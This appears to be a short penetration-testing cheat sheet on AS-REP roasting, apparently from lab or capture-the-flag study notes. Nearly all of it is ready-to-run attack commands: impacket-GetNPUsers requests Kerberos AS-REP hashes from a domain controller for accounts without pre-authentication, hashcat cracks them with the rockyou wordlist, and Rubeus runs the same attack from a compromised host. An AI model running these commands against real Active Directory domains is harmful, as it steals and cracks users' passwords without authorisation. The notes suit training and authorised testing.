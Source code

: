 
>[!Note] Remote

1. **Get List of Users that Do Not Require Kerberos Pre-Auth and their AS-REP Hash**  
  
```bash
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete  
```
  
1. **if you have a list of users, see if they do not require pre-auth and get their as-rep hash**
  
```bash
impacket-GetNPUsers -dc-host infiltrator.htb -usersfile users -format hashcat -outputfile hashes infiltrator.htb/  
```
  
  2. **Crack Hash**
  
```bash
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force  
```


>[!NOTE] On Target

```Rubeus
.\Rubeus.exe asreproast /nowrap
```